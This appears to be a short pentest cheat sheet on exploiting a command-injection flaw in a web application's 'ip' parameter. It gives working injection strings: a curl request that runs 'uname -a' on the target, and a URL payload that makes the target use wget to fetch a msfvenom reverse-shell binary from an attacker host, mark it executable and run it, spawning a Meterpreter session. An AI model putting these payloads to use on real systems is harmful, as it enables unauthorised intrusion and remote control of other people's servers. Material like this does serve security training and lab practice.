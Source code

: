 ### If the web application is vulnerable to Command Injection...

### From a terminal this will filter Curl and only print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```
Alternatively you can also just enter "uname -a" directly into the web browser address bar in this format.
```
http://<IP>/<Subdirectory>/example1.php?ip=127.0.0.1;uname -a
```

### This example is a series of commands to get your target to download an exploit. I created a reverse shell using msfvenom, loaded a payload in Metasploit, launched a Python SimpleHTTPServer, then appended the below script to the web browsers address bar. If properly executed Metasploit spawns a Meterpreter session.
```
ip=127.0.0.1;wget%20-O%20/tmp/cmd%20http://192.168.145.128/cmd;chmod%20755%20/tmp/cmd;/tmp/cmd
```
